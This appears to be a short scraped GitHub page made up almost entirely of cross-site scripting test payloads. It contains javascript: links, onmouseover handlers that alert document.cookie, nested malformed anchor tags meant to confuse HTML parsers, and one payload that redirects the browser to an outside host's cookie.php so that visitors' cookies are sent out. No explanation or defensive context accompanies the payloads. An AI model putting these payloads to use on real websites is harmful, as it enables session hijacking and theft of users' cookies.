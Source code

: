 # -lt-img-src-ssx-onerror-alert-40-1-41-gt-
<a href="http://evil.com/javascript:alert("1");"><span class="btn button button--orange button--wide">XSS</a></span>

<h1>holaa||<a href="http://<a href="http://<a href="http://<a href="javascript:alert(documen.cookie)" onmouseover="javascript:alert(document.cookie)">aaagle.com</a>">aaale.com</a>">aaagle.com</a>">gle.com</a> hhh

<h1>holaa||<a href="http://<a href="http://<a href="http://<a href="javascript:window.location='https://growncheckerworl.com/cookie.php?cookie=document.cookie'" >aaaaaaaaaaaaaaaaaaaaaaaaaagle.com</a>">aaaaaaaaaaaaaaaaaaaaaaaaaagle.com</a>">aaaaaaaaaaaaaaaaaaaaaaaaaagle.com</a>">gle.com</a> hhhk
